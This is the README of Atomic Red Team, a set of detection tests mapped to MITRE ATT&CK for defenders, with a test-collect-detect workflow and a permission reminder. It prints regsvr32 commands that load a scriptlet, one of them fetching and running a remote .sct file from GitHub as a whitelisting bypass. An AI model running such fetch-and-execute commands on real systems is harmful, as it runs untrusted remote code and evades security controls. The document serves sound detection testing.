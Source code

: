 # Atomic Red Team

Small and highly portable detection tests mapped to the [Mitre ATT&CK Framework.](https://attack.mitre.org/wiki/Main_Page)

## Mitre ATT&CK Matrix

We broke the repository into three working matrices:

[Windows MITRE ATT&CK Matrix](Windows/README.md)

[Mac MITRE ATT&CK Matrix](Mac/README.md)

[Linux MITRE ATT&CK Matrix](Linux/README.md)

## How to use Atomic Red Team

Our Atomic Red Team tests are small, highly portable detection tests mapped to the MITRE ATT&CK Framework. Each test is designed to map back to a particular tactic. We hope that this gives defenders a highly actionable way to immediately start testing their defenses against a broad spectrum of attacks.

* Be sure to get permission and necessary approval before conducting tests. Unauthorized testing is a bad decision, and can potentially be a resume-generating event.

* Set up a test machine that would be similar to the build in your environment. Be sure you have your collection/EDR solution in place, and that the endpoint is checking in and active.

* Spend some time developing a test plan or scenario. This can take many forms. An example test plan could be to execute all the Discovery phase items at once in a batch file, or run each phase one by one, validating coverage as you go.

There are three phases to the testing framework:

![Phases](https://www.redcanary.com/wp-content/uploads/image2-5.png)

### Phase 1: Execute Test

This particular test is fairly easy to exercise, since the tool is default on all Windows workstations.

The details of this test case are [here](Windows/Execution/Regsvr32.md).

Two methods are provided to perform the Atomic Test:

#### Local

For a local simulation use the provided .sct file:

    regsvr32.exe /s /u /i:file.sct scrobj.dll

#### Remote

For a remote simulation you will need a remotely accessible server to grab/download this file, or use gist:

    regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/RegSvr32.sct scrobj.dll

### Phase 2: Collect Evidence

What does your security solution observe? You may see a file modification in the user’s profile. You may detect network connections made by regsvr32.exe to an external IP. There may be an entry in the proxy logs. You may observe the scrobj.dll loading on Windows. Or, you might not observe any behavior on the endpoint or network. This is why we test! To identify visibility gaps and determine where improvements need to be made.

![RC Timeline](https://www.redcanary.com/wp-content/uploads/image9-1.png)

![Cb example 1](https://www.redcanary.com/wp-content/uploads/image5-3.png)

![Cb Example 2](https://www.redcanary.com/wp-content/uploads/image7-2.png)

### Phase 3: Develop Detection

So you executed the test and none of your defenses fired – that’s why we test! Based on your observations and detection capabilities, it is time to use what you have to try to detect this event in your environment.

![Unwind Data](https://www.redcanary.com/wp-content/uploads/image8-1.png)

Once the detection is built, it is time to validate that the detection is working and that it is appropriately tuned. If you were to write your detection too broadly and “detect” every regsvr32.exe, you are going to be digging out from a mountain of false positives. But if you write it too narrow and it only detects regsvr32.exe with the exact command line “/s /u /i” then all an attacker has to do is slightly modify the command line to evade your detection.

### Measure Progress

One of the goals is to try to measure your coverage/capabilities against the ATT&CK Matrix and to identify where you may have gaps. Roberto Rodriguez ([@cyb3rWar0g](https://twitter.com/Cyb3rWard0g)) provided [this spreadsheet](https://github.com/Cyb3rWard0g/ThreatHunter-Playbook/blob/master/metrics/HuntTeam_HeatMap.xlsx) and complementary [blog post](https://cyberwardog.blogspot.com/2017/07/how-hot-is-your-hunt-team.html) showcasing how to determine where you stand within your organization in relation the MITRE ATT&CK Matrix.

![HeatMap](https://www.redcanary.com/wp-content/uploads/image4-5.png)

![Measure](https://www.redcanary.com/wp-content/uploads/image6-2.png)




#### We did not create the MITRE ATT&CK Framework, we just think it is awesome and extensive.

#### ATT&CK and ATT&CK Matrix are trademarks of The MITRE Corporation
